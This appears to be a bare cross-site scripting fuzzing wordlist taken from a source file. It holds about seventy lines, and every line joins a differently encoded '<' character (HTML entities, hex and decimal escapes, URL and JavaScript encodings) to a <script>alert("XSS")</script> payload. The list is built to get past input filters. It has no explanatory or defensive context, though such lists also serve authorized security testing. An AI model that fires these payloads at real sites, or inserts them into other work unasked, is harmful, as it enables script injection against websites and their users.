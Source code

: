 <<script>alert("XSS")</script>
%3C<script>alert("XSS")</script>
&lt<script>alert("XSS")</script>
&lt;<script>alert("XSS")</script>
&LT<script>alert("XSS")</script>
&LT;<script>alert("XSS")</script>
&#60<script>alert("XSS")</script>
&#060<script>alert("XSS")</script>
&#0060<script>alert("XSS")</script>
&#00060<script>alert("XSS")</script>
&#000060<script>alert("XSS")</script>
&#0000060<script>alert("XSS")</script>
&#60;<script>alert("XSS")</script>
&#060;<script>alert("XSS")</script>
&#0060;<script>alert("XSS")</script>
&#00060;<script>alert("XSS")</script>
&#000060;<script>alert("XSS")</script>
&#0000060;<script>alert("XSS")</script>
&#x3c<script>alert("XSS")</script>
&#x03c<script>alert("XSS")</script>
&#x003c<script>alert("XSS")</script>
&#x0003c<script>alert("XSS")</script>
&#x00003c<script>alert("XSS")</script>
&#x000003c<script>alert("XSS")</script>
&#x3c;<script>alert("XSS")</script>
&#x03c;<script>alert("XSS")</script>
&#x003c;<script>alert("XSS")</script>
&#x0003c;<script>alert("XSS")</script>
&#x00003c;<script>alert("XSS")</script>
&#x000003c;<script>alert("XSS")</script>
&#X3c<script>alert("XSS")</script>
&#X03c<script>alert("XSS")</script>
&#X003c<script>alert("XSS")</script>
&#X0003c<script>alert("XSS")</script>
&#X00003c<script>alert("XSS")</script>
&#X000003c<script>alert("XSS")</script>
&#X3c;<script>alert("XSS")</script>
&#X03c;<script>alert("XSS")</script>
&#X003c;<script>alert("XSS")</script>
&#X0003c;<script>alert("XSS")</script>
&#X00003c;<script>alert("XSS")</script>
&#X000003c;<script>alert("XSS")</script>
&#x3C<script>alert("XSS")</script>
&#x03C<script>alert("XSS")</script>
&#x003C<script>alert("XSS")</script>
&#x0003C<script>alert("XSS")</script>
&#x00003C<script>alert("XSS")</script>
&#x000003C<script>alert("XSS")</script>
&#x3C;<script>alert("XSS")</script>
&#x03C;<script>alert("XSS")</script>
&#x003C;<script>alert("XSS")</script>
&#x0003C;<script>alert("XSS")</script>
&#x00003C;<script>alert("XSS")</script>
&#x000003C;<script>alert("XSS")</script>
&#X3C<script>alert("XSS")</script>
&#X03C<script>alert("XSS")</script>
&#X003C<script>alert("XSS")</script>
&#X0003C<script>alert("XSS")</script>
&#X00003C<script>alert("XSS")</script>
&#X000003C<script>alert("XSS")</script>
&#X3C;<script>alert("XSS")</script>
&#X03C;<script>alert("XSS")</script>
&#X003C;<script>alert("XSS")</script>
&#X0003C;<script>alert("XSS")</script>
&#X00003C;<script>alert("XSS")</script>
&#X000003C;<script>alert("XSS")</script>
\x3c<script>alert("XSS")</script>
\x3C<script>alert("XSS")</script>
\u003c<script>alert("XSS")</script>
\u003C<script>alert("XSS")</script>
